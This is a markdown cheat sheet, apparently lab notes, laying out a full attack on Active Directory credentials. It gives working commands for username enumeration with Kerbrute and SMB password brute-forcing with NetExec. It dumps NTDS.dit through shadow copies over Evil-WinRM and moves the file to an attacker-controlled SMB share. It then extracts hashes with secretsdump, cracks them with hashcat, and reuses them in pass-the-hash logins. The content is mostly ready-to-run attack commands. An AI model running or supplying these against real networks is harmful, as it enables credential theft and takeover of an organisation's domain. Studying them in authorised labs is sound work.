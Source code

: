 # Active Directory CReds and NTDS.dit

## Username dictionary attacks against AD accounts

### Creating a custom list of usernames

Create a list of usernames knowing common naming conventions --> names.txt --> automated list generator

- [Username Anarchy](https://github.com/urbanadventurer/username-anarchy)
- [Kerbrute](https://github.com/ropnop/kerbrute)

```bash
# Anarchy
./username-anarchy -i /home/ltnbob/names.txt 

# Enumerate valid names with Kerbrute
./kerbrute_linux_amd64 userenum --dc 10.129.201.57 --domain example.local names.txt
```

### Launching a brute-force attack with NetExec

Use it in conjunction with the SMB protocol to send logon requests to the target Domain Controller.

```bash
netexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```

## Capturing NTDS.dit

- [Pentest Everythng - NTDS](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/credential-access/credential-dumping/ntds)
- %systemroot%/ntds

### Fast method: Using NetExec to capture NTDS.dit

```bash
netexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! -M ntdsutil
```

### Connecting to a DC with [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)

To make a copy of the NTDS.dit file, we need local admin.

```powershell
evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'

# Checking local group membership
net localgroup

# Checking user account privileges including domain
net user bwilliamson

# Creating shadow copy of C:
vssadmin CREATE SHADOW /For=C:

# Copying NTDS.dit from the VSS
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

#### Transferring NTDS.dit to attack host

```bash
# Mount local share on attack box
sudo smbserver.py -smb2support CompData /home/ltnbob/Documents/

# Back to evil
C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 
```

#### Extracting hashes from NTDS.dit

```bash
impacket-secretsdump -ntds NTDS.dit -system SYSTEM LOCAL
```

## Cracking hashes and gaining credentials

Create a text file with all the hashes - or do one at a time

```bash
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

## Pass the Hash (PtH) considerations

PtH attack takes advantage of the [NTLM authentication protocol](https://docs.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm#:~:text=NTLM uses an encrypted challenge,to the secured NTLM credentials) to authenticate a user using a password hash. Instead of `username`:`clear-text password` as the format for login, we can instead use `username`:`password hash`. 

```bash
evil-winrm -i 10.129.201.57 -u Administrator -H 64f12cddaa88057e06a81b54e73b949b
```



